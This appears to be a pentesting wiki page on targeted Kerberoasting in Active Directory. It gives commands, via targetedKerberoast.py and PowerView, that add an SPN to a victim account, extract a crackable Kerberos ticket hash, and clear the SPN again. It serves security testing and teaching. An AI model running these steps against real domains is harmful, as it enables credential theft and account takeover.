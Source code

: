 ```yaml
---
authors: ShutdownRepo, sckdev
---
```


# Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../builtins/security-groups) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. 

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```


=== Windows

From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

:::


Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
